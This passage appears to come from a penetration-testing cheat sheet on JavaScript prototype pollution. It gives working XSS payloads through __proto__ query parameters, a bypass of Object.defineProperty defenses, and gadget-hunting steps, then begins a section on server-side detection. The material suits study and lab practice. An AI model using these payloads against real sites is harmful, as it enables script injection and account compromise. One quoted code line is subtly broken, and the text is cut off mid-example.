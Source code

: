```sh
        let username = data['x-username'];
        let message = document.querySelector('.message');
        if(username) {
            message.innerHTML = `My products. Logged in as <b>${username}</b>`;
        }
        let productList = document.querySelector('ul.products');
        for(let product of data) {
            let product = document.createElement('li');
            product.append(product.name);
            productList.append(product);
        }
    })
    .catch(console.error);
# An attacker could pollute Object.prototype with a headers property containing a malicious x-username header:
?__proto__[headers][x-username]=<img/src/onerror=alert(1)>

##################### Prototype pollution via Object.defineProperty()
# Devs attempt to block potential gadgets by using the Object.defineProperty() method -> non-configurable, non-writable property directly on the affected object 
Object.defineProperty(vulnerableObject, 'gadgetProperty', {
    configurable: false,
    writable: false
})
# Object.defineProperty() accepts an options object, known as a "descriptor". Devs might have not set a value at all. 
# An attacker may be able to bypass this defense by polluting Object.prototype with a malicious value property. 
/?__proto__[value]=data,alert();//

# EXAMPLE
- Try to find a source -> /?__proto__[foo]=bar
- Look at Debugger > .js files
    Object.defineProperty(config, 'transport_url', {configurable: false, writable: false});
    if(config.transport_url) {
        let script = document.createElement('script');
        script.src = config.transport_url;
        document.body.appendChild(script);
    }
- /?__proto__[value]=foo and confirm on Elements that script src has value of foo
- /?__proto__[value]=data,;alert()//
```
{% endcode %}

## Server-side prototype pollution

{% code overflow="wrap" fullWidth="true" %}
```sh
##################### Why is server-side prototype pollution more difficult to detect?
- No source code access 
- Lack of developer tools
- The DoS problem
- Pollution persistence


##################### Detecting server-side prototype pollution via polluted property reflection
JavaScript for...in loop iterates over all of an object enumerable properties, including inherited via prototype
Note: this does not include built-in properties set by JavaScript native constructors (non-enumerable by default)
#  You can test this out for yourself as follows: 
const myObject = { a: 1, b: 2 };

```